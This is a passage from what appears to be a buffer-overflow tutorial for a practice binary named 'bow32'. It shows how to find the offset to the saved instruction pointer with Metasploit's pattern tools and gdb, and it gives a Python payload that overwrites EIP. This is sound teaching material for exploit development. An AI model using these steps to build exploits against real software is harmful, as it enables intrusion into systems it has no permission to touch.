 
#### Check position of saved instruction pointer on stack

The next step is to change the value of the instruction pointer. This cannot be done directly, as it is read only, but the old value of the instruction pointer is saved on the stack when a function is called. This is where it can possibly be overwritten.

We want to see what part of the input we gave ends up where in memory. You can make a string to test with manually or use a tool.

Metasploit has two helpful scripts. One to generate a non-repetitive string and one to give us the offset (position) of a part of this string.

`/usr/share/metasploit-framework/tools/exploit/pattern-create.rb`
	`-l`, `--length <length>`         The length of the pattern
    `-s`, `--sets <ABC,def,123>`   Custom Pattern Sets
    `-h`, `--help`                             Show help
	`./pattern_create.rb -l 500` Creates a non-repetitive string with length 500

`/usr/share/metasploit-framework/tools/exploit/pattern-offset.rb`
    `-q`, `--query Aa0A`                 Query to Locate
    `-l`, `--length <length>`        The length of the pattern
    `-s`, `--sets <ABC,def,123>`  Custom Pattern Sets
    `-h`, `--help`                            Show help
	`./pattern_offset -l 500 -q 63413163` Returns the position of the 0x63413163`

Example:
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
gdb -q bow32
run $(cat pattern.txt)
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569        
[*] Exact match at offset 1036
```

Test that the position is correct:
```sh
gdb -q bow32
run $(python -c "print('\x55' * 1036 + '\x66' * 4)")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

Yay, we can set eip!

Remember this number for later!


